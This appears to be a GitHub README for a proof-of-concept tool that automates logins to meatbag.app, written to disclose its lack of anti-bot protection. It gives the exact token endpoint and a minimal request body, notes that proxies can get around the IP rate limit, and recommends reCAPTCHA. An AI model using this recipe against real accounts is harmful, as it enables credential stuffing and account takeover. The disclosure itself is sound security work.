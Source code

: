 # meatbag-app-login
Login automation proof-of-concept for [meatbag.app](https://meatbag.app).

## Usage
The program, by default, reads combinations from `credentials.txt` in the `username:password` format.
There is only 1 thread by default, and once all combinations are tested, the program exits.
Valid and invalid combinations are logged (be sure to run with `RUST_LOG=info`).

This application does not have support for proxies by default. This is because this is simply a proof
of concept and I did not want to make it any easier than it already is for attackers. Proxy support can
be easily added, however.

Output using the default `credentials.txt` file and configuration:
```
[2022-11-19T15:18:00Z INFO  meatbag_app_login] Parsed 3 accounts from credentials.txt
[2022-11-19T15:18:00Z INFO  meatbag_app_login] Starting 1 login threads
[2022-11-19T15:18:01Z INFO  invalid_logins] test@gmail.com:hello is invalid
[2022-11-19T15:18:02Z INFO  invalid_logins] test1@gmail.com:hello1 is invalid
[2022-11-19T15:18:03Z INFO  invalid_logins] test2@gmail.com:hello2 is invalid
[2022-11-19T15:18:03Z INFO  meatbag_app_login] Done
```

## Motivation
This repository has came to be after I recently discovered Meatbag, a website claiming
to be "Twitter 2.0".

The website has a basic text captcha for registration, but offers no protection for login.
There does, however, appear to be an IP rate limit. This means that an attacker can login
potentially thousands of times (or even more) per second, while consuming very little resources,
to test leaked username + password combinations to perform an ATO (Account Takeover Attack).

Account Takeover Attacks are conducted by cybercriminals to test usernames and passwords to
see if they are valid. The usernames and passwords are usually obtained from leaked databases.

Most websites have protection against ATO's with the use of an anti-bot service, like reCAPTCHA.

## Technical
The website makes an HTTP request to `https://meatbag.app/oauth/token` with the username and password
when a user attempts to login. A request made from a legitimate user looks like this:

```http request
POST https://meatbag.app/oauth/token HTTP/2.0

:method: POST
:authority: meatbag.app
:scheme: https
:path: /oauth/token
content-length: 274
sec-ch-ua: "Google Chrome";v="107", "Chromium";v="107", "Not=A?Brand";v="24"
accept: application/json, text/plain, */*
content-type: application/json
sec-ch-ua-mobile: ?0
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
origin: https://meatbag.app
sec-fetch-site: same-origin
sec-fetch-mode: cors
sec-fetch-dest: empty
referer: https://meatbag.app/
accept-encoding: gzip, deflate, br
accept-language: en-US,en;q=0.9

{"client_id":"Pt-G_VrDcoVhc32ZpuqMf4FHmDW37bxPtcjQm7J2k6w","client_secret":"8PvfgVS5UFStXXq-LR5PfcAawU_524ZQraTjOuXw0n8","redirect_uri":"urn:ietf:wg:oauth:2.0:oob","grant_type":"password","username":"test@gmail.com","password":"hello","scope":"read write follow push admin"}
```

At first glance, most information here is junk. The important part is the request body:

```json
{
  "client_id": "Pt-G_VrDcoVhc32ZpuqMf4FHmDW37bxPtcjQm7J2k6w",
  "client_secret": "8PvfgVS5UFStXXq-LR5PfcAawU_524ZQraTjOuXw0n8",
  "redirect_uri": "urn:ietf:wg:oauth:2.0:oob",
  "grant_type": "password",
  "username": "test@gmail.com",
  "password": "hello",
  "scope":"read write follow push admin"
}
```
When logging in with the username `test@gmail.com` and the password `hello`, we can clearly see the credentials
in plaintext sent in the request. Since the username and password is all we need for the request, we can
actually make a request like this that will still work:

```http request
POST https://meatbag.app/oauth/token HTTP/2.0

:method: POST
:authority: meatbag.app
:scheme: https
:path: /oauth/token
content-type: application/json
accept: */*

{
	"client_id": "",
	"client_secret": "",
	"redirect_uri": "urn:ietf:wg:oauth:2.0:oob",
	"grant_type": "password",
	"username": "test@gmail.com",
	"password": "hello",
	"scope": "read write follow push admin"
}
```

With this information in hand, we can make a program that automates the login process.
This is what this repository does.

Because there is no protection on the login form, this allows any cybercriminal to easily
automate the process with essentially an unlimited number of credentials to find combinations that work,
record the working combinations, and perform an Account Takeover Attack. This is a huge deal as it also
allows an attacker to take as many guesses as they wish to guess someone's password. This also applies to 2FA codes;
although it is hard to guess a six-digit code, it becomes easier when you have infinite guesses.

Although the login endpoint appears to have IP-based rate limiting, this is not a solution. Attackers
often have access to proxies, essentially allowing them to change their IP address. These proxies often look
like a legitimate residential IP address, which evades many proxy detection systems.

## Solution
The easiest solution to prevent login automation would be to implement reCAPTCHA. reCAPTCHA has an invisible
challenge (v3 and Enterprise), meaning a legitimate user does not need to complete a captcha to login.
Most modern anti-bot services are invisible in this way, which involves a background challenge that is hard
for an attacker to re-create to make it look like the HTTP request originates from a legitimate user.

reCAPTCHA Enterprise is the most common and affordable solution that significantly increases the difficulty
and compute costs for attackers, however there are most sophisticated (and significantly more expensive) solutions
like [F5 Distributed Cloud Bot Defense](https://www.f5.com/cloud/products/bot-defense).

Bots are always evolving and there is no definite solution to the problem, but the difficulty can be
significantly increased, and the compute costs for an attacker can also be significantly increased,
which essentially means attackers can only test a certain number of logins per second.

### Disclaimer
I do not condone the use of ATO's (Account Takeover Attacks) or credential stuffing.
This repository is simply a proof of concept to prove that it is possible to automate
the process of logging in programmatically, which can be used by attackers to test
potentially thousands of username + password combinations to perform account takeovers.